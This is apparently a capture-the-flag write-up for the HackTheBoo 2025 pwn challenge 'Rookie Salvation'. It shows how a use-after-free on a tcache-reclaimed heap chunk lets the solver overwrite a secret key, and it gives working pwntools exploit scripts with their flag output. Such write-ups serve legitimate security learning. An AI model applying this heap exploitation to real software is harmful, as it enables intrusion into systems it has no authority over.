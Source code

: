 ```yaml
---
title: "HackTheBoo CTF 2025 | Pwn: Rookie Salvation [medium]"
date: 2025-10-27
summary: "HackTheBoo 2025 CTF Pwn — Rookie Salvation"
description: "Reclaiming a freed heap chunk via tcache to rewrite the secret key and unlock the salvation path for the flag."
weight: 20
tags:
  - HackTheBox
  - HackTheBoo 2025
  - Pwn
  - Heap Exploitation
  - x86_64
categories:
  - HackTheBoo 2025
  - Pwn
draft: false
---
```


Rook’s last stand against NEMEGHAST begins now. This is no longer a simulation—it’s the collapse of control. Legend speaks of only one entity who ever broke free from the Matrix: the original architect of NEMEGHAST. His name—buried, forbidden, encrypted—was the master key. If you can recover it… and inject it into the core... Rook will finally be free.

## Step 1: Explore the Challenge Files

```
ls
file rookie_salvation
cat README.txt
```

Findings:

- Only one ELF (`rookie_salvation`) plus flavor text.
- 64-bit dynamically linked PIE, NX and stack canary enabled, so a classic ret2win is unlikely.

## Step 2: Baseline Protections and UX

```
checksec --file=rookie_salvation
./rookie_salvation
```

`checksec` confirms **Full RELRO**, **Canary**, **NX**, **PIE**. Running the binary shows the three-option:

```
+-------------------+
| [1] Reserve space |
| [2] Obliterate    |
| [3] Escape        |
+-------------------+
```

Option 3 invokes the salvation check, so the vulnerability must involve options 1 and 2.

## Step 3: Static Reconnaissance

Enumerate symbols and dive into the interesting functions with radare2.

```
nm -C rookie_salvation
r2 -q -c 'aaa; e scr.color=false; s sym.reserve_space; pdf' rookie_salvation
r2 -q -c 'aaa; e scr.color=false; s sym.obliterate; pdf' rookie_salvation
r2 -q -c 'aaa; e scr.color=false; s sym.road_to_salvation; pdf' rookie_salvation
```

Key observations:

- `main` allocates a single heap chunk (`malloc(0x26)`) and stores its pointer in the global `allocated_space`. The bytes at `allocated_space + 0x1e` are initialized to the string `"deadbeef"`.
- **reserve_space**
  - Prompts for a size, `malloc`s that size, and lets us `scanf("%s")` directly into the new chunk.
  - Never updates the global `allocated_space`; it only stores the pointer in a local variable.
- **obliterate** calls `free(allocated_space)` without nulling the pointer.
- **road_to_salvation** compares `strcmp((char*)(allocated_space+0x1e), "w3th4nds")`. If it matches, the function opens `flag.txt`; otherwise loop back to menu.

This sets up a **dangling pointer**: after `obliterate`, the global pointer remains, but the chunk returns to the tcache and can be reclaimed via `reserve_space`.

## Step 4: Exploitation Strategy

1. **Obliterate** the original chunk so it enters the tcache bin for size 0x30.
2. **Reserve** a new chunk of a compatible size (decimal 40 in the menu suffices – glibc rounds to the same 0x30 size class).
3. Because the freed chunk is first in the tcache list, the new allocation reuses the exact same address still stored in `allocated_space`.
4. When we input data for the new chunk, we overwrite the bytes at offset `0x1e`, effectively rewriting the salvation key that `road_to_salvation` will later verify.
5. Trigger option 3 to read the flag.


## Step 5: Local Proof of Concept

Use pwntools to script the menu sequence and confirm that replacing the secret with `w3th4nds` prints the local fake flag.

```
from pwn import *
context.log_level = 'debug'
elf = ELF('./rookie_salvation', checksec=False)

io = process(elf.path)
io.recvuntil(b'> ')
io.sendline(b'2')
io.recvuntil(b'> ')
io.sendline(b'1')
io.recvuntil(b': ')
io.sendline(b'40')
io.recvuntil(b': ')
io.sendline(b'A'*30 + b'w3th4nds')
io.recvuntil(b'> ')
io.sendline(b'3')
print(io.recvrepeat(1).decode())
io.close()
```

Output:

```
[Unknown Voice] ✨ 𝐅𝐢𝐧𝐚𝐥𝐥𝐲.. 𝐓𝐡𝐞 𝐰𝐚𝐲.. 𝐎𝐮𝐭..HHTB{f4k3_fl4g_4_t35t1ng}
```

The local binary with a dummy flag, confirming that the logic works.

## Step 6: Exploit


```
from pwn import *

context.binary = ELF("./rookie_salvation", checksec=False)
context.log_level = "info"

HOST = "209.38.254.18"
PORT = 31337


def forge_key(io):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b": ", b"40")
    payload = b"A" * 0x1E + b"w3th4nds"
    io.sendlineafter(b": ", payload)
    io.sendlineafter(b"> ", b"3")
    io.recvuntil(b"HTB{")
    flag = b"HTB{" + io.recvuntil(b"}")
    log.success(flag.decode())


def main():
    io = remote(HOST, PORT)
    forge_key(io)


if __name__ == "__main__":
    main()
```


Run the script 

```
python3 exploit.py
```


```
[+] Opening connection to 209.38.254.18 on port 31337: Done
[+] HTB{h34p_2_h34v3n}
[*] Closed connection to 209.38.254.18 port 31337
```
